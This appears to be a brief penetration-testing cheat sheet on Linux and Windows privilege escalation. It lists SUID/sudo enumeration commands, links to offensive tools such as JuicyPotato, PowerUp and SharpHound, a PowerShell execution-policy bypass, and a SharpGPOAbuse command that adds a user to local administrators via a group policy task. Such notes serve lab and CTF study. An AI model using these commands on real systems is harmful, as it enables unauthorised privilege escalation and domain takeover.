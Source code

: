 # Linux Privesc
- Find sudo permitted files
```sudo -l
```

- Find SUID binaries
```
find / -type f -perm -u=s 2>/dev/null
```

-Find SUID binaries
```
find / -type f -perm -4000 2>/dev/null
```

----------------------------------------------------------------------


# Window Privesc

## PrintSpoofer.exe
- Link
```
https://github.com/itm4n/PrintSpoofer
```

## JuicyPotato
- Link
```
https://github.com/ohpe/juicy-potato
```

## Powerup
- Link
```
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

powershell -ep bypass
.\PowerUp.ps1
Invoke-PrivescAudit
```

## Powerview
- Link
```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```

## SharpHound
- Link
```
https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1
```

## PowerGPOAbuse
- Link
```
https://github.com/rootSySdk/PowerGPOAbuse
https://raw.githubusercontent.com/rootSySdk/PowerGPOAbuse/master/PowerGPOAbuse.ps1
```
- Usage
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName 'noraj' --Author 'vulnnet\administrator' --Command "powershell.exe /c" --Arguments "net localgroup administrators enterprise-security /add" --GPOName "security-pol-vn"
```

## SharpGPOAbuse
- Link
```
wget https://github.com/byronkg/SharpGPOAbuse/raw/main/SharpGPOAbuse-master/SharpGPOAbuse.exe
```
